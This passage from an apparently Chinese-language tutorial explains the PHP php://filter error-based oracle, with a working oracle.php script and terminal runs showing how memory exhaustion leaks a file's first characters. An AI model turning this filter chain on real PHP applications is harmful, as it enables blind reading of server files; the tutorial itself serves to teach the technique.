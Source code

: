 ```bash
$ echo 'aSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is e
IBM-930 conversions : 2, the first character is d
IBM-930 conversions : 3, the first character is c
IBM-930 conversions : 4, the first character is b
IBM-930 conversions : 5, the first character is a
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 115036160 bytes) in /tmp/oracle.php on line 16

$ echo 'cSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is e
IBM-930 conversions : 2, the first character is d
IBM-930 conversions : 3, the first character is c
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 68288512 bytes) in /tmp/oracle.php on line 16

$ echo 'GSTART' > /tmp/test
$ php oracle.php 
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 75497472 bytes) in /tmp/oracle.php on line 16
```

可以发现，通过利用 oracle，可以精确地确定链的第一个字符是 `a` 、 `b` 、 `c` 、 `d` 还是 `e` 。

通过使用更多的 filter 可以让`$guess_char`产生更多的可能性，比如可以通过添加 `string.rot13` 过滤器以相同的方式泄漏：字符 `n` 、 `o` 、 `p` 、 `q` 和 `r`。

```bash
<?php

$string = "START";
$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars|";
    $rot13filter = "string.rot13|";
    $filter = "php://filter/$rot13filter$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."rqpon"[$i-1]."\n";
}
```

```bash
$ echo 'nSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, the first character is r
IBM-930 conversions : 2, the first character is q
IBM-930 conversions : 3, the first character is p
IBM-930 conversions : 4, the first character is o
IBM-930 conversions : 5, the first character is n
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 115036160 bytes) in /tmp/oracle.php on line 17

$ echo 'rSTART' > /tmp/test
$ php oracle.php 
```
